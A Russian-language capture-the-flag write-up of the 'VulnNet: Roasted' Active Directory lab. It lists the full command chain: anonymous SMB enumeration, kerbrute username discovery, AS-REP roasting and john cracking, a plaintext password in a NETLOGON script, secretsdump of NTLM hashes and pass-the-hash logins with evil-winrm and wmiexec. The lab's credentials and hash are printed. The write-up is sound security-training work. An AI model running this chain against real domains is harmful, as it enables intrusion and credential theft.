# Write-up: VulnNet — Roasted

## Enumeration

Сканируем цель:

```bash
sudo nmap -sS -sV -sC --min-rate=1000 -p- 10.145.167.79
```

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
9389/tcp  open  mc-nmf        .NET Message Framing
```

Сразу видно, что это Active Directory, домен — `vulnnet-rst.local`.

## SMB

Смотрим шары:

```bash
smbclient -L 10.145.167.79
```



Интересуют две анонимные шары:

```text
VulnNet-Business-Anonymous   Disk
VulnNet-Enterprise-Anonymous Disk
```

Подключаемся к первой:

```bash
smbclient //10.145.167.79/VulnNet-Business-Anonymous -N
```

Скачиваем файлы:

```text
Business-Manager.txt
Business-Sections.txt
Business-Tracking.txt
```



Из `Business-Manager.txt`, `Business-Sections.txt` и `Business-Tracking.txt` вытаскиваем имена сотрудников:

```text
Alexa Whitehat
Jack Goldenhand
Tony Skid
Johnny Leet
```

Подключаемся ко второй шаре:

```bash
smbclient //10.145.167.79/VulnNet-Enterprise-Anonymous -N
```

Скачиваем:

```text
Enterprise-Operations.txt
Enterprise-Safety.txt
Enterprise-Sync.txt
```



Из этих файлов подтверждаем роли:

```text
Johnny Leet    — инфраструктура, sync
Tony Skid      — безопасность
Jack Goldenhand — бизнес-предложения
Alexa Whitehat — core business manager
```

## Формирование списка пользователей

Из имён собираем возможные username через `username-anarchy`:

```bash
./username-anarchy -i ~/Documents/ctf/vulnnet/users.txt
```



Автоматический список не подошёл, поэтому вручную добавляем найденные варианты:

```text
j-leet
t-skid
j-goldenhand
a-whitehat
```

Проверяем через `kerbrute`:

```bash
kerbrute userenum -d vulnnet-rst.local --dc 10.145.167.79 comb_users.txt
```



```text
[+] VALID USERNAME: j-leet@vulnnet-rst.local
[+] VALID USERNAME: t-skid@vulnnet-rst.local
[+] VALID USERNAME: j-goldenhand@vulnnet-rst.local
[+] VALID USERNAME: a-whitehat@vulnnet-rst.local
```

## AS-REP Roasting

Пробуем AS-REP Roasting:

```bash
impacket-GetNPUsers vulnnet-rst.local/ -no-pass \
  -usersfile ~/Documents/ctf/vulnnet/found-users.txt \
  -dc-ip 10.145.167.79 -format hashcat -outputfile asrep_hashes.txt
```



Получаем AS-REP-хэш для `t-skid`:

```text
$krb5asrep$23$t-skid@vulnnet-rst.local@VULNNET-RST.LOCAL:...
```

Крекаем через `john`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



```text
tj072889*        ($krb5asrep$23$t-skid@vulnnet-rst.local@VULNNET-RST.LOCAL)
```

## NETLOGON и скрипт сброса пароля

Заходим на `NETLOGON` под `t-skid`:

```bash
smbclient //10.145.167.79/NETLOGON -U t-skid%'tj072889*'
```



Внутри лежит `ResetPassword.vbs`:

```vbscript
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

То есть в скрипте хранится пароль от `a-whitehat`.

Проверяем креды:

```bash
nxc smb 10.145.167.79 -u a-whitehat -p 'bNdKVkjv3RR9ht'
```



Креды рабочие. Заходим по WinRM:

```bash
evil-winrm -i 10.145.167.79 -u a-whitehat -p 'bNdKVkjv3RR9ht'
```



Забираем `user.txt`:



## Дамп хэшей

У `a-whitehat` достаточно прав, чтобы сдампить хэши:

```bash
impacket-secretsdump vulnnet-rst.local/a-whitehat:'bNdKVkjv3RR9ht'@10.145.167.79
```


Получаем NTLM-хэш `Administrator`:

```text
c2597747aa5e43022a3a3049a3c3b09d
```

## Root

Заходим под `Administrator` через WinRM с хэшем:

```bash
evil-winrm -i 10.145.167.79 -u Administrator -H 'c2597747aa5e43022a3a3049a3c3b09d'
```

Альтернативно — через `wmiexec`:

```bash
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d \
  Administrator@10.145.167.79
```

Читаем `system.txt`:



## Итоговая схема (Kill Chain)

`SMB anonymous (Business/Enterprise)` → `имена сотрудников` → `kerbrute → валидные username` → `AS-REP Roasting (t-skid:tj072889*)` → `NETLOGON/ResetPassword.vbs (a-whitehat)` → `WinRM` → `secretsdump → NTLM Administrator` → `evil-winrm / wmiexec → root`